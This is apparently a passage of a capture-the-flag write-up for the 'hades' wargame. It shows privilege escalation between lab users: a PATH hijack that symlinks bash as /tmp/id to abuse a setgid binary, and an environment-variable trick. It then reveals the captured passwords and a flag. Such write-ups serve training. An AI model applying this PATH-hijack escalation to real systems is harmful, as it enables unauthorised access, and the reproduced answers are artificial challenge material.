 ```plaintext title="ls -lah"
drwxr-x--- 2 root      andromeda 4.0K Jul 26  2023 .
drwxr-xr-x 1 root      root      4.0K Jul 26  2023 ..
-rw-r--r-- 1 andromeda andromeda  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 andromeda andromeda 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 andromeda andromeda  807 Apr 23  2023 .profile
-r--r----- 1 anthea    anthea      21 Jul 26  2023 anthea_pass.txt
-rw-r----- 1 root      andromeda   22 Jul 26  2023 flagz.txt
-rw-r----- 1 root      andromeda  166 Jul 26  2023 mission.txt
-rwS--s--- 1 root      andromeda  16K Jul 26  2023 uid
```

```bash title="Exploit it"
andromeda@hades:~$ ln -sv /bin/bash /tmp/id
ln: failed to create symbolic link '/tmp/id': File exists
andromeda@hades:~$ PATH=/tmp
andromeda@hades:~$ ./uid
id: dircolors: command not found
anthea@hades:~$ export PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
anthea@hades:~$ cat anthea_pass.txt
yWFLtSNQArEBTHtWgkKd
```

## User - anthea

### flag - 05

```plaintext
^AcFLuAjhydNKIkPoFLL^
```

### 任务目标

```plaintext title="mission.txt"
User aphrodite is obsessed with the number 94.
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 1 root      anthea    4.0K Jul 26  2023 .
drwxr-xr-x 1 root      root      4.0K Jul 26  2023 ..
-rw-r--r-- 1 anthea    anthea     220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 anthea    anthea    3.5K Feb  3 15:51 .bashrc
-rw-r--r-- 1 anthea    anthea     807 Apr 23  2023 .profile
-r--r----- 1 aphrodite aphrodite   21 Jul 26  2023 aphrodite_pass.txt
-rw-r----- 1 root      anthea      22 Jul 26  2023 flagz.txt
-rw-r----- 1 root      anthea     175 Jul 26  2023 mission.txt
-rwS--s--- 1 root      anthea     16K Jul 26  2023 obsessed
```

```bash title="Exploit it"
anthea@hades:~$ export MYID=^;./obsessed 
Current MYID: 94
aphrodite@hades:~$ cat aphrodite_pass.txt 
HPJVaqRzieKQeyyATsFv
```
